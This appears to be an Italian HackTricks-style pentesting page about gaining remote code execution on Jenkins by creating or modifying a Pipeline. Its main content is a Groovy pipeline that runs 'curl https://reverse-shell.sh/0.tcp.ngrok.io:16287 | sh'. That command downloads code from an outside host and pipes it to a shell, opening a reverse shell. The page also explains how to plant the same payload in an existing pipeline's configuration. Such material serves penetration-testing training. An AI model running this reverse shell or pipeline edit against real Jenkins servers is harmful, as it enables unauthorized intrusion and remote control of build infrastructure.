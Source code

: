 # Jenkins RCE Creazione/Modifica Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Creare una nuova Pipeline

In "Nuovo Elemento" (accessibile in `/view/all/newJob`) seleziona **Pipeline:**

![](<../../images/image (235).png>)

Nella **sezione Pipeline** scrivi il **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Infine fai clic su **Salva** e **Esegui ora** e la pipeline verrà eseguita:

![](<../../images/image (228).png>)

## Modificare una Pipeline

Se puoi accedere al file di configurazione di una pipeline configurata, puoi semplicemente **modificarlo aggiungendo il tuo reverse shell** e poi eseguirlo o aspettare che venga eseguito.

{{#include ../../banners/hacktricks-training.md}}
